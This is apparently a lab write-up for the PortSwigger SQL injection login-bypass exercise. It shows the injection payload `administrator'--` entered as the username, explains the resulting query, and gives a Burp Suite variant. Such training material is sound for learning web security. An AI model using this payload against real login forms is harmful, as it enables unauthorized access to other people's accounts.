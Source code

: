 # Lab: SQL injection vulnerability allowing login bypass

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

![lab-sql-login-bypass.png](./image/lab-sql-login-bypass.png)

# Attack

### Navigate to the login form

![screenshot00.png](./image/screenshot00.png)

### Analyzing the form inputs

![screenshot01.png](./image/screenshot01.png)

### Try `admin:admin`

![screenshot02.png](./image/screenshot02.png)

![screenshot03.png](./image/screenshot03.png)

Invalid username or password.

## Try first payload

![screenshot04.png](./image/screenshot04.png)

![screenshot05.png](./image/screenshot05.png)

## Attack Payload

```
administrator'--
test
```

![screenshot06.png](./image/screenshot06.png)

This results into having a query of:

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## Solved

![lab-solved.png](./image/lab-solved.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the login request.
2. Modify the `username` parameter, giving it the value: `administrator'--`

## Community Solution

Rana Khalil

[SQL Injection - Lab #2 SQL injection vulnerability allowing login bypass](https://youtu.be/ML3aGaloczI)

Michael Sommer

[SQL injection vulnerability allowing login bypass (Video solution, Audio)](https://youtu.be/4FGkpyYYfCs)

